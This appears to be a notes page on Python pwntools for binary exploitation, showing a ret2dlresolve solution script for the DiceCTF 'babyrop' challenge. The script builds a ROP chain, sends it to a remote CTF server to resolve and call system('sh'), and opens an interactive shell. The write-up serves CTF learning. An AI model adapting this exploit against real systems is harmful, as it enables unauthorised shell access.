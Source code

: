 # Python pwntools
This page contains some notes and code using Python [pwntools](https://github.com/Gallopsled/pwntools) to exploit binaries. Contents are:
- [ret2dlresolve](#ret2dlresolve)

## ret2dlresolve
The [pwntools](pwntools.md) library has a function that will automatically create a payload for *ret2dlresolve* (finding and calling any function in a dynamic library, including *libc*). It does this by fooling the linker into thinking it needs to resolve the `system()` function in the PLT. The following is a solution for DiceCTF babyrop using *ret2dlresolve*:
```
#!/usr/bin/env python3
from pwn import *

# Add the binary to use
binary = ELF('./babyrop')
context.binary = binary

# Create a payload for ret2dl for the system command
# This will trick the dynamic linker into resolving
# system() for us
d = Ret2dlresolvePayload(binary, symbol="system", args=["sh"])

# Create our rop chain
rop = ROP(binary)

# This is just for stack alignment (ret gadget)
rop.raw(0x40101a)

# Get where to write the fake structures
# to be resolved
rop.gets(d.data_addr)

# Call to dl_resolve() to resolve our system() function
rop.ret2dlresolve(d)

# Attach to the remote server
p = remote('dicec.tf', 31924)

# Send the payload to resolve system()
p.sendline(flat({72: rop.chain()}))

# Send the payload to call system
p.sendline(d.payload)

# Interact with the new shell!
p.interactive()
```